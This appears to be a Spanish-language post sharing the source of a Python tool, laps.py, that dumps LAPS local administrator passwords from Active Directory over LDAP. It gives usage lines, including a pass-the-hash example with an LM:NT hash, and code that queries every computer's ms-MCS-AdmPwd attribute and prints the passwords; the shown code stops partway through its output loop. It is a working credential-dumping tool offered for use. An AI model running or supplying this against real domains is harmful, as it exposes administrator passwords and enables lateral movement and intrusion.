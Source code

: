 Para usarlo
`python laps.py -u user -p password -d domain.local`

PTH especificando servidor:

`python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local`

Os dejo el código por aquí  ya que el repo no tiene muchas visitas:

```python
#!/usr/bin/env python3
from ldap3 import ALL, Server, Connection, NTLM, extend, SUBTREE
import argparse
from datetime import datetime
parser = argparse.ArgumentParser(description='Dump LAPS Passwords')
parser.add_argument('-u','--username',  help='username for LDAP', required=True)
parser.add_argument('-p','--password',  help='password for LDAP (or LM:NT hash)',required=True)
parser.add_argument('-l','--ldapserver', help='LDAP server (or domain)', required=False)
parser.add_argument('-d','--domain', help='Domain', required=True)
parser.add_argument('-c','--computer', help='Target computer', required=False)                                                                                                                                     
parser.add_argument('-o','--output', help='Output file to CSV', required=False)


def base_creator(domain):
    search_base = ""
    base = domain.split(".")
    for b in base:
        search_base += "DC=" + b + ","
    return search_base[:-1]


def main():
    # Get the current runtime for logging purposes
    getTime = datetime.now()
    runtime = getTime.strftime("%m-%d-%Y %H:%M:%S") 
    print("LAPS Dumper - Running at " + runtime)
    
    args = parser.parse_args()
    #Check if the user specifies a file output. If so, it creates a new CSV.
    if args.output != None:
        filename = args.output + getTime.strftime("-%m-%d-%Y.csv")
        f = open(filename,'w')
        header = ['Computer,Password,Expiration Time,Epoch Expiration Time,Query Time\n']
        f.writelines(header)
        f.close()

    if args.ldapserver:
        s = Server(args.ldapserver, get_info=ALL)
    else:
        s = Server(args.domain, get_info=ALL)
    if args.computer:
        ldap_filter = "(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(cn=" + args.computer + "))"
    else:
        ldap_filter = "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))"
    c = Connection(s, user=args.domain + "\\" + args.username, password=args.password, authentication=NTLM, auto_bind=True)
    try:
    	c.search(search_base=base_creator(args.domain), search_filter=ldap_filter, attributes=['ms-MCS-AdmPwd','ms-Mcs-AdmPwdExpirationTime','cn'])
    	for entry in c.entries:
            print (str(entry['cn']) +" "+ str(entry['ms-Mcs-AdmPwd']))
```